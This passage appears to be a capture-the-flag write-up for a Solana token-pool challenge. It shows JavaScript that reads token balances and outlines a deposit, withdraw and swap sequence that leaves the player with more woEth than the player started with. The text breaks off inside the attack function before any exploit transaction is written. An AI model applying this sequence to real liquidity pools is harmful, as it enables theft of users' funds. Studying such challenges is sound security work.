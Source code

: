 We have 1000 tokens of each mint.

```js
// mint accounts
const woEthMint = await spl_token.getMint(conn, accounts.woEthMint);
const soEthMint = await spl_token.getMint(conn, accounts.soEthMint);
const stEthMint = await spl_token.getMint(conn, accounts.stEthMint);
// console.log(woEthMint);
// console.log(soEthMint);
// console.log(stEthMint);

// pool token accounts
const woEthPoolToken = await spl_token.getAccount(conn, accounts.woEthPoolAccount);
const soEthPoolToken = await spl_token.getAccount(conn, accounts.soEthPoolAccount);
const stEthPoolToken = await spl_token.getAccount(conn, accounts.stEthPoolAccount);
console.log(`Pool balances:\n\twoEth: ${woEthPoolToken.amount}, soEth: ${soEthPoolToken.amount}, stEth: ${stEthPoolToken.amount}`);

// player token accounts
const woEthTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.woEthMint, player.publicKey));
const soEthTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.soEthMint, player.publicKey));
const stEthTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.stEthMint, player.publicKey));
console.log(`Player balances:\n\twoEth: ${woEthTokenAccount.amount}, soEth: ${soEthTokenAccount.amount}, stEth: ${stEthTokenAccount.amount}`);
```

```bash
Pool balances:
	woEth: 100000000, soEth: 100000000, stEth: 100000000
Player balances:
	woEth: 1000, soEth: 1000, stEth: 1000
```


## Exploit:
- Deposit some woEth tokens for soEthVoucher tokens.
- Withdraw the soEthVoucher tokens for the original soEth tokens.
- Then we could swap the soEth tokens for the woEth tokens, at the end we left more woEth tokens.

```js
async function attack() {
    console.log(accounts);
    // mint accounts
    const woEthMint = await spl_token.getMint(conn, accounts.woEthMint);
    const soEthMint = await spl_token.getMint(conn, accounts.soEthMint);
    const stEthMint = await spl_token.getMint(conn, accounts.stEthMint);
    // console.log(woEthMint);
    // console.log(soEthMint);
    // console.log(stEthMint);

    // pool token accounts
    const woEthPoolToken = await spl_token.getAccount(conn, accounts.woEthPoolAccount);
    const soEthPoolToken = await spl_token.getAccount(conn, accounts.soEthPoolAccount);
    const stEthPoolToken = await spl_token.getAccount(conn, accounts.stEthPoolAccount);
    console.log(`Pool balances:\n\twoEth: ${woEthPoolToken.amount}, soEth: ${soEthPoolToken.amount}, stEth: ${stEthPoolToken.amount}`);

    // player token accounts
    const woEthTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.woEthMint, player.publicKey));
    const soEthTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.soEthMint, player.publicKey));
```